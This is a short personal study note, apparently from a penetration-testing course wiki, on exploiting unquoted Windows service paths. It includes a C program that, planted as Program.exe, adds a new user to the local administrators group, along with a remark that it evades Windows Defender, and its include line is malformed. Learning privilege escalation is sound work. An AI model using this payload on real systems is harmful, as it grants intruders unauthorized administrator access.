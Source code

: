 # Exploiting Unquoted Paths

author:: Nathan Acks  
date:: 2022-08-17

When Windows encounters an unquoted path it tries *all* possible paths, from shortest to longest. Thus `C:\Program Files\Application Path\App.exe` will cause Windows to look for the following executables, in order:

* `C:\Program.exe`
* `C:\Program Files\Application.exe`
* `C:\Program Files\Application Path\App.exe`

If an executable is found on a shorter path, then the remainder of the (unquoted) path is treated as command line parameters.

* [2022-04-21 - TryHackMe: Jr. Penetration Tester](../log/2022-04-21-tryhackme-jr-penetration-tester.md)

# Exploiting Services Running as SYSTEM

If a service is running as SYSTEM, the following code can be inserted (as `Program.exe` or `Application.exe` in the example above) and will add a new user with admin privileges. (`USERNAME` and `PASSWORD` obviously need to be updated to fit the current use case.)

```c
#include <stdlib.h

int main() {
	int i;

	i = system("net user USERNAME PASSWORD /add");
	i = system("net localgroup administrators USERNAME /add");

	return 0;
}
```

As of August 17, 2022, binaries compiled from this code are *not* detected as malicious by Windows Defender.

* [2022-08-17 - OffSec Live: PEN-200](../log/2022-08-17-offsec-live-pen-200.md)
